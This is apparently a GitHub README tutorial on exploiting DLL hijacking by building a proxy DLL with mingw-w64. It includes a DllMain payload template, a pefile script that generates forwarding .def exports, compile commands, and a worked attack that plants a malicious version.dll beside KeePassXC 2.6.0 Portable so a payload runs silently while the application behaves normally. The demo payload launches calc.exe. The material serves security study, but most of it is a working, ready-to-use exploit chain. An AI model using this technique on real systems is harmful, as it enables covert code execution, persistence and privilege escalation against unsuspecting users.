



# Exploiting DLL Hijacking by DLL Proxying Super Easily

## TL;DR

This is a tutorial about exploiting DLL Hijack vulnerability
without crashing the application. The method used is called DLL Proxying.

There are various Visual Studio projects for Windows about this, but
here is how to build and **cross-compile the Proxy DLL with
[mingw-w64](http://mingw-w64.org/doku.php) super easily on Linux**.

## Introduction

DLL Hijacking in a nutshell: there is a search order (of predefined paths) for
an application to look for required DLLs, and if it is possible to put a malicious
DLL with the same name in the search path before the legitimate target DLL, then
it is possible to hijack the execution flow by the replacement exported methods
of the malicious DLL.

It can be used by attackers for persistence or even privilege escalation.
Under some special conditions and configurations, it can be also used for
domain level privilege escalation and even for remote code execution.

There are two important requirements of the malicious replacement DLL:

1. The malicious DLL should export the functions (at least by dummy implementations)
which the application tries to import otherwise the application fails to load
and malicious DLL would also not be loaded.

2. If the malicious DLL exports the functions required by the application
but does not implement them equivalently to the legitimate DLL, the application
loads the DLL and probably executes the malicious code (e.g. in the `DllMain()`
function), but afterwards the application crashes.

The solution for these two problems is DLL Proxying: create a malicious DLL
which exports all of the functions of the legitimate DLL and instead of
implementing them, just forward the calls to the legitimate DLL.

This way the application behaves normally without crashing and it can
execute the malicious code silently in the background.

## Creating the Proxy DLL

Let's assume the target DLL we want to proxy to is `target_orig.dll` and the proxy DLL
will be `target.dll`. It is possible to use a basic template for `target.c`:

```c
void Payload()
{
    // Malicious payload should be implemented here...
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Defining the exports is possible easily during link-time by using
[Module-Definition (.def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=vs-2019)
which is fortunately supported by the mingw-w64 cross-compiler toolset. In the `.def` file it is also possible
to instruct the linker to use external references for the exported functions to the legitimate DLL file.

The [required syntax](https://docs.microsoft.com/en-us/cpp/build/reference/exports?view=vs-2019) for the `.def` file exports:

```
EXPORTS
  exported_name1=legitimate_dll_module.exported_name1 @ordinal1
  exported_name2=legitimate_dll_module.exported_name2 @ordinal2
  ...
```

In order to generate the `.def` file all we need is the export list of the legitimate DLL.
Extracting the export list is really simple by using the Python [pefile](https://github.com/erocarrera/pefile)
Portable Executable (PE) parser module. Here is how to do it
(script is included [here](./gen_def.py) in the repo):

```python
import pefile

dll = pefile.PE('target_orig.dll')

print("EXPORTS")
for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print('{}=target_orig.{} @{}'.format(export.name.decode(), export.name.decode(), export.ordinal))
```

The output of this short script is the required `target.def` file for the mingw-w64 linker.

Now compiling and linking is trivial by using mingw-w64 cross-compiler (e.g. on Linux, targeting Windows 32-bit arch):

```
i686-w64-mingw32-gcc -shared -o target.dll target.c target.def -s
```

The resulted `target.dll` proxies all of the calls to the exported functions to the legitimate `target_orig.dll`.
This way the application depending on the methods of `target.dll` is working normally, but it executes our
`Payload()` function at initialization. ;)

This is not new, this is a well-known technique, but the above mingw-w64 method with the module-definition file
for creating the Proxy DLL is one of the simplest.

## Example

Let's take an arbitrary DLL Hijacking vulnerable app (it is easy because there are many): e.g.
[KeePassXC 2.6.0 Portable (32-bit)](https://github.com/keepassxreboot/keepassxc/releases/download/2.6.0/KeePassXC-2.6.0-Win32-Portable.zip).

Using [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
it is easy to detect a potentional DLL Hijacking issue:



Here the `KeePassXC.exe` app tries to load the library `version.dll`,
first from the path of the exe resulting `NAME NOT FOUND` then
it finds the dll in the official `C:\Windows\SysWOW64` folder.

Let's try to target this `version.dll` loading:
let's put a malicious version of the dll to the exe folder.

Copy the legitimate one from `C:\Windows\SysWOW64\version.dll` to
the Linux host as `version_orig.dll`.

Generating the `version.def` file containing the export
redirections by the Python script:

```
gen_def.py version_orig.dll > version.def
```

Here is (version.c)[./version.c] adding an example `Payload()`
launching `calc.exe` to the above template:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o version.dll version.c version.def -s
```

Copy the malicious `version.dll` proxy and the legitimate `version_orig.dll`
to the home folder of KeePassXC:



And now launch `KeePassXC.exe`! The application should work well and
behave normally and our payload is also excecuted (`calc.exe` launched). :)



